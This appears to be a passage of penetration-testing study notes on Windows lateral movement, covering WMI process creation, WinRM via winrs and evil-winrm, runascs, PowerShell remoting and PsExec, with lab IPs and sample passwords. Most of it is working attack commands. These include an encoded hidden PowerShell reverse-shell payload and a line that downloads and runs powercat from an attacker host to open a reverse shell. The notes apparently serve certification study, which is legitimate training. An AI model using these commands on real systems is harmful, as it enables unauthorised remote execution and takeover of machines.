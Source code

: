 ```powershell
$session = New-CimSession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 

$command = 'calc';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
- The above command `calc` should then be replaced by a payload of our chosing (i.e a Powershell reverse shell)
```powershell
$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
```
- Another way can be to use WinRM which is listening on ports 5986 (TLS) and 5985
- For WinRM to work properly, the user needs to be part of the "Remote Management Users" group
- We can use `winrs` or `evil-winrm` to execute commands (again, replace the command with an appropriate payload)
```cmd
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
```
- If we have access to WinRM and have credentials for another user which is not in the _Remote Management Group_, we can use `runascs.exe` to send ourselves a reverse shell
```powershell
.\runascs administrator Password123 --logon-type 8 "powershell -c IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.232:8000/powercat.ps1');powercat -c 192.168.45.232 -p 443 -e powershell"
```
- With `powershell` we can use the WinRM built-in capability _PowerShell remoting_ which can be invoked with `New-PSSession`
```powershell
$username = 'alexa';
$password = 'P@ssw0rd!';

$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;

$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.50.73 -Credential $credential
```
- After creating a session, we can use `Enter-PSSession` followed by the session ID to interact with it
```powershell
Enter-PSSession 1
```

## PsExec
- We can use `PsExec.exe` to run remote commands if:
	- The user needs to be part of the local Administrators group on the target
	- The ADMIN$ share must be available
	- File and Printer Sharing has to be turned on
```powershell
.\PsExec64.exe -i  \\FILES04 -u corp\jen -p Nexus123! cmd
```
